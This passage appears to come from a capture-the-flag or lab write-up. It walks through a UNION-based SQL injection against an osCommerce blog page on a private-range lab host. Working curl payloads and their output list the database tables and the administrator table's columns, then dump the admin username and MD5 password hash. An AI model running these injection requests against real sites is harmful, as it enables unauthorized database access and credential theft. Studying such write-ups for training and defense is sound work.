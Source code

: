 **Enumerating tables**

There are many tables, but I focused on the **osc_administrators** table.

```console
root@kali:~$ curl -s 'http://192.168.110.151/blog/index.php?act=page&id=999999999%27%20union%20select%200,1,table_name,3,4%20from%20information_schema.tab
les%20where%20table_schema=%27oscommerce%27--%20-' | tr '<' '\n' | grep -P 'br />\w' | awk -F ">" '{print $NF}'                                                     
osc_address_book                                                                                                                                                    
osc_administrators                                                                                                                                                  
osc_administrators_access                                                                                                                                           
osc_administrators_log                                                                                                                                              
osc_banners                                                                                                                                                         
osc_banners_history                                                                                                                                                 
osc_categories                                                                                                                                                      
osc_categories_description                                                                                                                                          
osc_configuration                                                                                                                                                   
osc_configuration_group                                                                                                                                             
osc_counter
...
```

**Enumerating columns**

```console
root@kali:~$ curl -s 'http://192.168.110.151/blog/index.php?act=page&id=999999999%27%20union%20select%200,1,column_name,3,4%20from%20information_schema.columns%20where%20table_schema=%27oscommerce%27%20and%20table_name=%27osc_administrators%27--%20-' | tr '<' '\n' | grep -P 'br />\w' | awk -F ">" '{print $NF}'
id 
user_name 
user_password 
```

**Retrieving users**

```console
root@kali:~$ curl -s 'http://192.168.110.151/blog/index.php?act=page&id=999999999%27%20union%20select%200,1,concat%28user_name,0x3a,user_password%29,3,4%20from%20oscommerce.osc_administrators--%20-' | tr '<' '\n' | grep -P 'br />\w' | awk -F ">" '{print $NF}'
admin:685cef95aa31989f2edae5e055ffd2c9:32
```

In the output we can see that there is only one record, also in the following picture we can see the password for the MD5 hash.
